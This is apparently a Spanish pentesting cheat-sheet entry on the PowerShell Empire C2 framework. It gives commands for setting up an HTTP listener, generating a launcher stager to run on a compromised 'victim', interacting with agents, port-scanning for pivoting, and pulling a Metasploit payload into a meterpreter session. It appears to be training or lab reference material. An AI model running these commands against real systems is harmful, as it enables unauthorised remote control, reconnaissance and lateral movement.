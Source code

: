```yaml
---
Herramienta: 🕵️‍♂️ PowerShell Empire
Comando: empire
Categoría: Post-explotación
SO: Windows/Linux
tags:
  - post-explotacion
  - c2
  - powershell
---
```


## Descripción

**PowerShell Empire** es una plataforma de post-explotación y control de comando (C2) diseñada para facilitar la administración y operación de sistemas comprometidos. Utiliza PowerShell para ofrecer un conjunto completo de funcionalidades, desde ejecución remota de comandos hasta el despliegue de payloads.

Considerar combinarlo con starkiller para tener una interfaz gráfica de los listeners y agents activos.

## Características clave

- **C2 completo**: Proporciona un framework modular para controlar agentes en sistemas comprometidos.
- **Uso de PowerShell**: Funciona sin necesidad de binarios adicionales, aprovechando comandos nativos de PowerShell.
- **Soporte multiplataforma**: Compatible con Windows y Linux.
- **Modularidad**: Incluye módulos para tareas específicas como extracción de credenciales, persistencia y movimientos laterales.

## Ejemplo de uso

### Ejemplo 1

Un framework que funciona bien como cliente para poweshell es PowerShell Empire. Para ver como funciona necesitamos lo siguiente:

```bash

#Necesitamos una conexión con un host con windows, puede ser a través de un revershell o un SMB y desde otra pestaña del shell ejecutamos.
powershell-empire server

#Esto desplega el framework del powershell empire. Y para conectar el powershell con la conexión remota tenemos que habrir otra pestaña (total de 3) y ejecutar.

powershell-empire client
```

Este framework sirve para explotación y post-explotación. Este framework nos puede llegar a ser muy útil para pivoting. Vamos a hacer una prueba con diferentes módulos.

```bash

#Una vez hemos logrado establecer conexión con el cliente de poweshell-empire vamos a usar el módulo "uselistener http".

(Empire) > uselistener http

#Ahora tenemos que setear los parametros, en este caso son la IP de nuestro sistema y el puerto que queremos que escuche

set Host ip
set Port 8888
execute

#Si ejecutamos el comando listeners podemos observar los que tenemos configurados y con el comando Main podemos volver a la página principal del framework.

#con el modulo usestager multi/launcher podemos indicarle un listener y nos indicará el comando a ejecutar en la conexión con la victima para meterla en el framework

(Empire) > usestager multi/lancher
set Listener http
execute
```

Si ejecutamos este comando en la conexión (en este caso un SMB) podemos ver como la sesión se añade el powershell empire y si ejecutamos agents podemos ver las sesiones que tenemos dentro del framework.

Ahora, como podemos volver a entrar a este host? muy sencillo

```bash

#Desde el framework de powershell empire vamos a lanzar la instrucción interact y el name del agents que nos aparezca

interact name

#Con esto estaremos dentro del host pero seguiremos utilzando powershell empire, con lo que tenemos acceso a todos los módulos por ejemplo ->

usemodule powershell/situational_awareness/host/computerdetails
execute


#Y nos dará información detallada del host al que nos hemos conectado. Otro modulo de ejemplo interesante

usemodule powershell/situational_awareness/network/portscan

#Este modulo es esencial para hacer pivoting y lo que podemos hacer es ponerle una ip que nosotros no tengamos acceso pero que esta maquina si que tenga acceso

set Hosts ip2
execute

#Tarda en ejecutarse pero nos dará información de los puertos abiertos y si queremos explotarlos ya entrariamos a usar metasploit.
```

**Después del ejemplo 1 de metasploit**:

Desde aquí nos habrá pasado metasploit un comando a ejecutar en el sistema victima, para ello podemos hacer uso de algún modulo de Powershell Empire

```cmd
usemodule powershell/code_execution/invoke_metasploitpayload
set URL url #la de metasploit

#Con esto podemos conseguir una sesion de meterpreter en el metasploit.
```



